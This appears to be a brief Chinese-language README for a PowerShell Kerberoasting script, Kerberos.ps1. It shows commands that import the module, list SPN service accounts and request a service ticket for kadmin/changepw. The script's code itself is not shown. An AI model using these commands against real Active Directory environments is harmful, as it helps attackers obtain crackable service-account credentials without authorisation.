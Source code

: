 # Kerberos.ps1

该脚本是简单封装的Kerberostring利用脚本，即获取SPN服务账户和获取请求票据的操作

```
Import-Module .\kerberos.ps1
```

```
# 获取SPN服务账户
Frail-Spns
# 请求服务票据TGS
Inject-Ticket kadmin/changepw

```![image-20210421212008760](kerberos\images\image-20210421212008760.png)






